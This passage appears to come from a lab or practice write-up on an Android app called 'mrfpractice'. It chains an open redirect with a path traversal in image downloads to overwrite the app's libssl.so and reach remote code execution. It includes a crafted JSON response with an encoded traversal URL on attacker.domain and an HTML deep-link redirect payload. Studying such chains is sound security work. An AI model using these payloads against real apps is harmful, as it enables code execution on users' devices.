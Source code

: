 blog image will be downloaded from the link returned as the value of `image` key
![](https://i.imgur.com/Qi3oYot.png)
![](https://i.imgur.com/ZEf28mk.png)

the downloaded images will be saved in the path `/data/data/com.dphoeniixx.mrfpractice/cache/image-cache/FILE_NAME_MD5/filename` 
![](https://i.imgur.com/ZL0meAm.png)

we can use the same open redirect used before to redirect the request `GET /api/v1/blogs/blogID` to the attacker's domain and return a manipulated response with an image URL that includes a path traversal payload to overwrite any file inside the application's writable directories, by hosting the JSON below on the attacker's domain and redirect the victim to the JSON link, the `libssl.so` file in the path `/data/data/com.dphoeniixx.mrfpractice/libs/arm64-v8a/libssl.so` will be overwritten with another file includes a malicious code or reverse shell payload

```JSON
{
    "status": "success",
    "data": {
        "_id": "640f4199259ed37178284e6f",
        "title": "First Blog",
        "description": "Test First blog",
        "image": "https://attacker.domain/x/x/x/..%2f..%2f..%2flibs%2farm64-v8a%2flibssl.so",
        "tags": [],
        "author": "640f4067259ed37178284e69",
        "createdAt": "2023-03-13T15:30:33.477Z",
        "updatedAt": "2023-03-13T15:30:33.477Z"
    }
}
```
the HTML below will redirect the victim to the manipulated JSON link

```HTML
<!DOCTYPE html>
<html>
<body>
<a href="mrf://dphoeniixx/blog/..%2fredirect%2f%252f%252fattacker.domain%252fpayload.json">Blog</a>
</body>
</html>
```
![](https://i.imgur.com/A7OPgO9.png)

next time the app gets launched the malicious `libssl.so` payload will be executed
![](https://i.imgur.com/SdMF2yi.png)

And this was the RCE vulnerability






